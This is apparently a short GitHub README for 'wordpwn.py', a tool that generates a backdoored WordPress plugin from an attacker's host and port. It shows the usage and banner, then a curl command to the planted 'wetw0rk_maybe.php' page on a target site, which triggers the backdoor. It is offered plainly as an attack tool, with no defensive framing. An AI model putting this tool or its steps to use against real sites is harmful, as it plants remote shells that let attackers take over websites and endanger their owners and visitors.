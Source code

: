 # malicious-wordpress-plugin
Simply generates a malicious wordpress plugin without msfvenom.

#### Usage Example
```sh
root@wetw0rk:~# python wordpwn.py 
__        __            _
\ \      / /__  _ __ __| |_ ____      ___ __
 \ \ /\ / / _ \|  __/ _  |  _ \ \ /\ / /  _ \ 
  \ V  V / (_) | | | (_| | |_) \ V  V /| | | |
   \_/\_/ \___/|_|  \__,_| .__/ \_/\_/ |_| |_|
                         |_|


Usage: wordpwn.py [LHOST] [LPORT]
Example: wordpwn.py 192.168.0.6 8888
```

Finally, visist the backdoor page `wetw0rk_maybe.php`.

```
curl http://[target]/wp-content/plugins/malicous/wetw0rk_maybe.php
```

